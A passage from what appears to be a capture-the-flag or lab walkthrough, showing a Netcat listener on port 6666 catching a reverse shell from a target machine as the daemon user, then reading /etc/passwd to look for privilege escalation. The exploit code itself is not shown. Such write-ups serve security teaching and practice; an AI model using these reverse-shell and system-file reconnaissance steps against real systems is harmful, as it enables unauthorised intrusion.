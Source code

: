 We listen with Netcat:

```
└──╼ $nc -lnvp 6666
listening on [any] 6666 ...
connect to [192.168.1.224] from (UNKNOWN) [192.168.1.240] 34411
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 17:56:00 up 13 min,  1 user,  load average: 0.00, 0.01, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
montiliv tty1                      17:44   11:21   0.02s  0.00s -bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

Now that we are listening we update the edited file with the exploit and we are in:

!["Reverse shell"](images/image07.png "Reverse shell")

Let's get some system information to see if we can escalate privileges.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```